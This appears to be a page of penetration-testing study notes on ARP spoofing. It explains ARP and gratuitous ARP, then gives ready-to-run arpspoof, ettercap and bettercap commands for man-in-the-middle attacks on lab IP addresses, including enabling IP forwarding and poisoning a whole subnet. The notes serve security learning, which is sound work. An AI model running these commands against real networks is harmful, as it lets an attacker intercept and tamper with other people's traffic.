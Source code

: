 # ARP Spoofing

## ARP

• An ARP request message should be placed in a frame and broadcast to all computers on the network&#x20;

• Each computer receives the request and examines the IP address&#x20;

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../.gitbook/assets/image (293).png>)

## Gratuitous ARP

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs&#x20;

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../.gitbook/assets/image (277).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## ARP Spoofing

### arpspoof

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### Ettercap

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### Bettercap

#### specify t of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

#### turn ARP spoof on/off

```
arp.spoof on / off
```

When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
